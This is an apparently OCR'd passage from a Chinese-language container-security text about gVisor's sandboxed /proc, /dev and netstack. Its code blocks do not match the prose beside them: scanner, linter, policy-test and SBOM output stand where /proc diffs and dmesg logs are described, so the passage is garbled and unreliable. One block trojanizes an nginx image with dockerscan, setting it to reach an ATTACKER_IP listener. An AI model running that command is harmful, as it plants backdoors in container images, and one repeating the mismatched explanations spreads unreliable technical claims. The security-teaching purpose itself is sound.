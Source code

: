 ```
|                             |                  |          |             ...
+-----------------------------+------------------+----------+-------------...

infra/api/code/package-lock.json
==================================================
Total: 0 (UNKNOWN: 0, LOW: 0, MEDIUM: 0, HIGH: 0, CRITICAL: 0) ![3](img/3.png)
```

###### 注意

从此目录中删除特殊文件可防止恶意进程访问底层主机内核中相关功能。

*/proc*中的条目比`runc`容器中少得多，如此差异显示：

```
$ docker save nginx:latest -o webserver.tar ![1](img/1.png)
$ dockerscan image modify trojanize webserver.tar \ ![2](img/2.png)
  --listen "${ATTACKER_IP}" --port "${ATTACKER_PORT}" ![3](img/3.png)
  --output trojanized-webserver ![4](img/4.png)
```

模拟 Linux 系统调用接口的 Sentry 进程重新实现了 Linux 5.3.11 版本中约 350 个可能的系统调用中的超过 235 个。这向你展示了*/proc*和*/dev*虚拟文件系统的“屏蔽”视图。这些文件系统历来通过从主机共享信息（内存、设备、进程等）泄露容器抽象，因此是一个特别关注的领域。

让我们看看 gVisor 和`runc`下*/dev*中的系统设备：

```
$ docker run --rm -i hadolint/hadolint < Dockerfile
/dev/stdin:3 DL3008 Pin versions in apt get install.
/dev/stdin:5 DL3020 Use COPY instead of ADD for files and folders
```

我们可以看到`runsc` gVisor 运行时去除了`console`和`core`设备，但在*/dev/net/tun*目录（在*net/*目录下）中包含了一个`/dev/net/tun`设备，用于其`netstack`网络堆栈，该堆栈也运行在 Sentry 内。Netstack 可以被绕过以进行直接主机网络访问（牺牲一些隔离性），或者完全禁用主机网络以实现完全主机隔离的网络（取决于在沙箱中配置的 CNI 或其他网络）。

除了这些线索，gVisor 在启动时很好地标识自己，你可以在使用`dmesg`查看容器时看到：

```
$ conftest test --policy ./test/policy --all-namespaces Dockerfile
2 tests, 2 passed, 0 warnings, 0 failures, 0 exceptions
```

值得注意的是这不是启动容器所需的真实时间，而且古怪的消息是随机生成的—不要依赖它们进行自动化。如果我们计时该过程，我们会看到它比它声称的启动得更快：

```
user@host:~ [0]$ syft packages controlplane/bizcard:latest -o cyclonedx
Loaded image
Parsed image
Cataloged packages      [0 packages]
<?xml version="1.0" encoding="UTF-8"?>
<bom xmlns="http://cyclonedx.org/schema/bom/1.2"
    version="1" serialNumber="urn:uuid:18263bb0-dd82-4527-979b-1d9b15fe4ea7">
  <metadata>
    <timestamp>2021-05-30T19:15:24+01:00</timestamp>
    <tools>
      <tool>
        <vendor>anchore</vendor>   ![1](img/1.png)
        <name>syft</name>          ![2](img/2.png)
        <version>0.16.1</version>  ![3](img/3.png)
      </tool>
    </tools>
    <component type="container">  ![4](img/4.png)
      <name>controlplane/bizcard:latest</name> ![5](img/5.png)
      <version>sha256:183257b0183b8c6420f559eb5591885843d30b2</version> ![6](img/6.png)
    </component>
  </metadata>
  <components></components>
</bom>
```